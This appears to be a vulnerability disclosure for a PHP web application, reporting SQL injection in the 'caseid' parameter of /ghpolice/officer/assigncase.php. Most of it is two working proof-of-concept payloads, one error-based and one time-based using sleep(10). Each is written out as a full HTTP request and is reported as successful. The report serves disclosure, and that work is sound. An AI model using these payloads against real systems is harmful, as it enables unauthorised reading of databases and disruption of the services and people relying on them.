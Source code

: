 BUG_Author:Derek_Zhang

Vulnerability File: /ghpolice/officer/assigncase.php

GET parameter 'caseid' exists SQL injection vulnerability

Payload1: caseid=1' and (select 2 from(select count(*),concat(0x31323334,(select (elt(666=666,1))),0x61626364,floor(rand(0)*2))x from information_schema.plugins group by x)a)-- b

```
GET /ghpolice/officer/assigncase.php?caseid=1%27%20and%20(select%202%20from(select%20count(*),concat(0x31323334,(select%20(elt(666=666,1))),0x61626364,floor(rand(0)*2))x%20from%20information_schema.plugins%20group%20by%20x)a)--%20b HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=30di1kr94iks5mnf9ufm2uuh2f
Connection: close
```

Injection success based on errors

![image](https://github.com/fillorkill/bug_report/blob/main/picture/sql1.png)

Payload2:caseid=1' and (select 2 from (select(sleep(10)))a)-- b

```
GET /ghpolice/officer/assigncase.php?caseid=1%27%20and%20(select%202%20from%20(select(sleep(10)))a)--%20b HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=30di1kr94iks5mnf9ufm2uuh2f
Connection: close
```

Server response time is 10 seconds

![image](https://github.com/fillorkill/bug_report/blob/main/picture/sql2.png)

